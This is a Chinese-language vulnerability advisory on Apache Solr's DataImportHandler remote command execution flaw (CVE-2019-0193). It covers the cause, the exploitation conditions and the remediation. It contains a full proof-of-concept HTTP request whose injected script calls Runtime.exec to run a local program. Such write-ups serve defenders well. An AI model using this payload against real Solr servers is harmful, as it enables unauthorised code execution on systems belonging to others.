

### 一 漏洞名
Apache solr 远程命令执行漏洞（CVE-2019-0193）

### 二 漏洞描述
Apache Solr 是一个开源的搜索服务器。  
Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。  
此次漏洞出现在Apache Solr的DataImportHandler（数据导入处理程序），该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。

该模块的配置信息 "DIH配置"(DIH configuration) 可使用以下的方式指定:  
Server端 - 通过Server的“配置文件“来指定配置信息"DIH配置"  
web请求 - 使用web请求中的dataConfig参数(该参数用户可控）来指定配置信息"DIH配置"（整个DIH配置可以来自请求的“dataConfig”参数）  

Apache Solr如果启用了DataImportHandler模块，因为它支持使用web请求来指定配置信息"DIH配置" ，攻击者可构造HTTP请求指定dataConfig参数的值(dataConfig内容)，dataConfig内容完全可控(多种利用方式)。
由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

### 三 漏洞利用
DIH配置中，配置从外部数据源中获取数据之后，需要配置数据格式转换。  
构造包含脚本的配置信息， 当Web后端处理该请求时，会使用“脚本转换器“(ScriptTransformer)对“脚本“进行解析，而Web后端未对脚本内容做任何限制(可以导入并使用任意的Java类，如执行命令的类)，导致可以执行任意代码。  
利用条件：  
1 启用了模块DataImportHandler(默认情况下该模块不会被启用)  
2 Solr Admin UI未开启鉴权认证  
```
POST /solr/tika/dataimport HTTP/1.1
Host: solr.com:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://solr.com:8983/solr/
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 585
Connection: close
 
command=full-import&verbose=false&clean=false&commit=false&debug=true&core=tika&name=dataimport&dataConfig=
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```


### 四 修复方式
1 关闭Solr的DataImportHandler  
2 添加Admin UI 认证
3 升级

> 参考链接: https://blog.csdn.net/whatday/article/details/106959989/
